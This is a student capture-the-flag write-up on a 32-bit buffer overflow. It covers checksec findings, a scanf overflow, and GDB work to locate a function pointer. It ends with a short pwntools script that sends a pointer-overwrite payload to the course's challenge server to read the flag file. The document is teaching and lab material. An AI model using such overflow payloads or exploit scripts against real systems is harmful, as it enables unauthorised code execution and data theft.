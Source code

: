 # CTF Week #5 (Buffer Overflow)

## Exploring

First, we run `checksec program` to find if it has any countermeasures.

<p align="center" justify="center">
  <img src="./assets/CTF5/step1.png"/>
</p>

From the output, we understand that:
* The architecture is x86 with a 32-bit address space.
* There is no protection on the return address (no stack canary).
* The NX (No eXecute) bit is disabled, meaning we can execute code on the stack.
* The program is not compiled as Position-Independent Executable (PIE). <!-- precisa de esplicar isso? -->
* There are segments with both Read, Write, and Execute (RWX) permissions.

## Code Analysis

1. The program has a function `readtxt(char* name)` that takes a file name as input and reads it using the `cat` command. The filename, without the extension, should be fewer than 6 characters.
2. If we can set the parameter `name` in the `readtxt` function and invoke it by modifying the `fun` function pointer, we will be able to get the flag.
3. There is a buffer overflow vulnerability in the code:
    * On line 18, a buffer is defined with a size of 32 bytes: `char buffer[32];`.
    * On line 26, the program uses `scanf("%45s", &buffer);`, which reads up to 45 bytes from standard input into the buffer, allowing for a potential overflow.

## Attack

The strategy was to overwrite the `fun` function pointer to point to `readtxt` and set the parameter to "`flag`".

### Step 1: Locate the `fun` Pointer

First, we run GDB and found addresses of `readtxt` and `echo` functions:

<p align="center" justify="center">
  <img src="./assets/CTF5/step2.png"/>
</p>

* The address of `readtxt` is `0x080497a5` 
* The address of `echo` is `0x080497e3`

Then, we set a breakpoint at line 23, where the `fun` pointer is assigned, and examine the first 45 bytes of the `buffer` (as we can manipulate them using the buffer overflow):

<p align="center" justify="center">
  <img src="./assets/CTF5/step3.png"/>
</p>

We observed that at stack address `0xffffd040`, the first 4 bytes were changing between the addresses of `readtxt` (`0x080497a5`) and `echo` (`0x080497e3`). This confirmed that the memory location corresponds to the fun variable.

### Step 2: Setting the Parameter to `"flag"`

To exploit the vulnerability, we will set the `fun` function pointer to `readtxt` using the payload: `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08` with 32 bytes and address of `readtxt`
> Note: address of `readtxt` - `0x080497a5` is written as `\xa5\x97\x04\x08` in little-endian format.

After running the payload, we got the following output:

<p align="center" justify="center">
  <img src="./assets/CTF5/step4.png"/>
</p>

The program attempted to open a file named `AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'$'\245\227\004\b` so we can set first bytes to string `flag` and use `\0` to mark the end of the string.

With this payload, we successfully retrieved the flag:

<p align="center" justify="center">
  <img src="./assets/CTF5/step5.png"/>
</p>

## Submit on server

As a last step we needed to uncomment line 5 to use with a server.

The final version of `exploit-template.py` is:
```py
from pwn import *

r = remote('ctf-fsi.fe.up.pt', 40964)

payload =  b"flag\0AAAAAAAAAAAAAAAAAAAAAAAAAAA\xa5\x97\x04\x08" 
r.recvuntil(b"flag:\n")
r.sendline(payload)

buf = r.recv().decode()
print(buf)
```

When running the exploit, we obtained the flag:

<p align="center" justify="center">
  <img src="./assets/CTF5/step6.png"/>
</p>
